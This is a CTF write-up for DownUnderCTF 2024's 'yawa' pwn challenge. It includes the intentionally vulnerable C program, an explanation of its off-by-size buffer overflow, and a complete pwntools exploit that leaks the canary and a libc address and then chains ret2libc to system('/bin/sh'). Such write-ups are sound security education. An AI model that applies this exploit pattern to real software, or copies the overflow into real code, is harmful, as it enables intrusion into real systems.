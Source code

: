 https://ctftime.org/event/2284

# yawa (pwn)

Yet another welcome application.

nc 2024.ductf.dev 30010

https://play.duc.tf/challenges#yawa-36

## Analysis

We are given the following code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
        } else {
            break;
        }
    }
}
```

We can see that there is a mismatch between the size of `name` specified with `88` and the size provided to `read` of `0x88`.

We can use this out-of-bounds write to control the return address of `main`.

However, first we need two things:

1) A copy of the canary from the stack
2) A leak of an address from `libc.so.6` so that we can compute the actual addresses for things in `libc.so.6`

Luckily, as we are in `main`, the return address for this function is an address in `libc.so.6` and our `read` is large enough to reach both.

I was unable to debug the binary as it came so i used https://github.com/io12/pwninit/releases to patch it as follows:

```bash
$ ./pwninit
```

This creates `yawa_patched` a patched version of `yawa` I could use to debug locally.

## Solution

1) Overwrite the stack up to an including the first byte of the canary
    - This is important as the first byte of the canary will be "\x00" and `printf` will stop here unless we change the value
2) Use `printf` to read the seven non-zero bytes of the canary
3) Overwrite the stack up to the return address
4) Use `printf` to read the 6 non-zero bytes of the return address
5) Use knowledge of the address of this code to compute the current `libc.so.6.` ASLR base
6) Finally replace the return address, taking care to write the canary bytes correctly, and `ret2libc`
    - Ensure that an aligning ret is provided as part of the payload or the stack will not be correctly aligned and the program will crash

```python
#!/usr/bin/env python3

from pwn import *
import struct

#context.log_level = "debug"
elf = ELF("./yawa_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("2024.ductf.dev", 30010)

p.sendlineafter(b"> ", b"1") # leak canary
p.send(b"A" * 89)
p.sendlineafter(b"> ", b"2")
p.recv(88 + 7 + 1)
canary = b"\x00" + p.recv(7)
log.success(f"canary: {canary.hex()}")

MAIN_RETURN_ADDRESS = 0x29d90 # where, in libc.so.6, main should return to

p.sendlineafter(b"> ", b"1") # leak return address
p.send(b"A" * 0x68)
p.sendlineafter(b"> ", b"2")
p.recv(0x68 + 7)
leak = struct.unpack("<Q", p.recv(6) + b"\x00\x00")[0]
libc.address = leak - MAIN_RETURN_ADDRESS
log.success(f"libc: {hex(libc.address)}")

p.sendlineafter(b"> ", b"1") # set return address to system("/bin/sh")
rop = ROP(libc)
rop.raw(b"A" * 88)
rop.raw(canary)
rop.raw(p64(0)) # saved rbp
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.send(rop.chain())

p.sendlineafter(b"> ", b"3") # return from main

p.sendline(b"cat flag.txt")

print(p.readline().decode()) # DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}
```

## Flag
`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`

smiley 2024/07/06
